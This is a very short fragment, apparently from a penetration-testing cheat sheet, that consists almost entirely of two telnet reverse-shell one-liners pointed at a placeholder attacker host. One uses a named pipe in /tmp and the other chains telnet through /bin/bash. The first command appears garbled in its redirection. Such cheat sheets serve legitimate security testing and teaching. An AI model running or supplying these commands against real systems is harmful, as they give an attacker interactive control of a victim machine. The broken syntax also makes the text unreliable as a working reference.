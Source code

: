 
### Version one
```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

### Version two
```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```


